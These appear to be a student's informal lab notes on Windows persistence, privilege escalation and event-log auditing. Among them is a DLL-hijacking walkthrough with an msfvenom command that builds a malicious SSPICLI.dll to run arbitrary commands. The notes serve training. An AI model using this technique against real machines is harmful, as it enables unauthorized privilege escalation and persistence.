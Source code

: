 


windows exploits 
-----------------------------------



pressitance
---------------------
scheduled tasks -> tigger ,services -> startup , registry (boot)-> hklm..\run,runonce


privilage esclation
-----------------------
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
  - procmon 
  - GetSystemDirectory() = C:\windows\system32
  - GetWindowsDirectory() = C:\windows

uac settings: reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
  - aslnvoker
  - highestAvailable

logs
  - 4964 faild logon ??
  - application
  - security
  - setup
  - system

*procmon and putty is needed* 

demo
--------------
search bar: scheduled tasks 
search bar: services 
fail safe mmc -> add snap in -> event viewer, services, task scheduler 
find the exe
view ...
event viewer: proccessname is <name of proccess>, result is NAME NOT FOUND, path contains .dll 
go to linops and create the dll: msfvenom -p windows/exec CMD='cmd.exe /c "<command you want>" > C:\users\student\desktop\whoami.txt' -f dll > SSPICLI.dll
scp the dll over
run the proccess 




audit commands
-----------------
auditpol /get /category:* 
auditpol /get /category:* | findstr /i "success failure"         *(need admin privliges)*
event IDs 4624,4625 success and fail
  - 4720 acc created
event viewer use to to look at system logs 

